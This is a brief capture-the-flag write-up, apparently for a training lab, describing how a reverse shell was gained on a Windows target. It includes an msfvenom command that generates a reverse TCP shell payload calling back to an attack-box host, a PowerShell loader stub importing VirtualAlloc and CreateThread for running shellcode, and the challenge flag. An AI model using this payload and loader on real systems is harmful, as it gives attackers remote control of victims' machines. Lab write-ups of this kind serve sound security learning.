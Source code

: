 # Shellcodes of the world, unite!

*Flag:* AOC{GOT _MY_ACCESS_B@CK007}

How you approached the challenge:

- step 1:So like they said first i entered this 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```
Then i used the netcat command to connect the reverse shell.

- step 2: After that if we replace the buf bytes with the script they gave and Then send the script to the reverse shell part by part we successfully get the reverse shell working. And after that we have access to machine and can write or get any files.

![62a7685ca6e7ce005d3f3afe-1732683410058](https://github.com/user-attachments/assets/c95c5b03-477a-483c-84d9-b54e1be45d39)


```
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread
```

- step 3: But looks like they changed stuff so we need to repeat the process again but this time the last section we need to enter line by line to gain access.and searchign this type C:\Users\glitch\Desktop\flag.txt
Should give the flag!

![62a7685ca6e7ce005d3f3afe-1732698537726](https://github.com/user-attachments/assets/f8651cf1-5ef3-4573-b101-2a4c220cfb00)


What you learned through solving this challenge:

1. Reverse shell

Other incorrect methods you tried:

- No incorrcet methods

References

- https://www.youtube.com/watch?v=ZBZhfu1A3Fw
